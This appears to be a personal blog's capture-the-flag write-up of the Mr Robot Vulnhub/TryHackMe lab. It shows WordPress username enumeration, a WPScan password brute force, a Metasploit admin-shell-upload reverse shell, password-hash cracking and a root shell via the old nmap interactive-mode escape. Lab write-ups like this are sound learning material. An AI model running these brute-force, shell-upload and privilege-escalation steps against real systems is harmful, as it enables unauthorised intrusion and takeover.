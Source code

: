 ```yaml
---
layout: post
title: "Mr Robot Vulnhub/Tryhackme"
date: 2020-10-01
categories: CTF
permalink: /MrRobot
---
```

Mr Robot Vulnhub/TryHackMe

Based on the show, Mr. Robot.

This VM has three keys hidden in different locations. Your goal is to find all three. Each key is progressively difficult to find.

Mr Robot CTF is available as either a vulnhub download VM or as a room on TryHackMe. I initially attacked this box while in chat with some friends but I am going through it again on TryHackMe for the purpose of this write up. I won't be putting the keys in this write up. If you'd like to know the keys, following along and do the box for yourself!

I first deployed the box and was given the address 10.10.41.78. We will do a simple nmap scan to find open ports.

```
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https
```

We can see a web server is running on the box. It's a pretty cool Mr Robot site they've built, but there is nothing of interest to us on the actual site. We can do a quick dirsearch to see if we find anything interesting.

Two interesting things pop out pretty quickly: robots.txt and wp-login.php

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

So we've found our first key, and a dictionary file of passwords. Time to brute force that wordpress login.

We can go to the wordpress login page and try a couple obvious user names to see if anything is a match. Admin, mrrobot, etc. Most names will give you the following error: ERROR: Invalid username. Lost your password?, but after trying the username 'elliot' you'll be greeted with the following message: ERROR: The password you entered for the username elliot is incorrect. Lost your password?

This verifies that elliot is a valid username, and most likely the one we are looking to break. We can run sort and uniq on the password file to remove any duplicates, which takes it from over 800,000 entires down to around 11,000.

```
sort fsocity.dic | uniq > newfs.dic
```

We can now use WPScan to brute force the password, with the following command

```
wpscan --url http://10.10.41.78/ -U elliot -P ./newfs.dic

[+] Performing password attack on Xmlrpc Multicall against 1 user/s
Progress Time: 00:00:00 <==============================================> (0 / 0) 100.0% Time: 00:00:00
[SUCCESS] - elliot / ER28-0652                                                                                                                             
All Found
```

We can now use metasploit to upload a reverse shell via a wordpress plugin using unix/webapp/wp_admin_shell_upload.

```
set RHOST 10.10.41.78
set PASSWORD ER28-0652
set USERNAME elliot

[*] Started reverse TCP handler on 10.0.2.15:4444 
[-] Exploit aborted due to failure: not-found: The target does not appear to be using WordPress
[*] Exploit completed, but no session was created.
```

After stumbling with this a few times, a friend showed me a page discussing the same error and a possible solution. Setting WPCHECK to false will bypass verifying if it is a valid wordpress install.

Once into our meterpreter session, we can go to the home directory and find robot user directory. There we will find the following files.

```
100400/r--------  33    fil   2015-11-13 07:28:21 +0000  key-2-of-3.txt
100644/rw-r--r--  39    fil   2015-11-13 07:28:21 +0000  password.raw-md5

meterpreter > cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

After cracking the password we can upgrade to the robot user using su.

```
su -l robot
su: must be run from a terminal
```

This is a common problem you might run into with meterpreter. We can upgrade our terminal using this simple python one-liner.

```
python -c 'import pty; pty.spawn("/bin/bash")'
$ su -l robot
```

We can now read key-2-of-3.txt and proceed to privesc for the third key. A quick check will show that an older version of nmap is installed on the system, and nmap runs with root privileges. We can start this version of nmap in an interactive shell, and then drop out to a root shell from there.

```
$ nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h  for help
nmap> !sh
!sh
#
```

We can now go to the root directory, where we will find key-3-of-3.txt and finish the box.

Overall this box was a lot of fun, and I learned a lot about using WPScan and solving difficulties with Metasploit exploits not working as expected. I also transitioned from Parrot back to Kali, as I've encountered numerous issues with things not working correctly in Parrot.

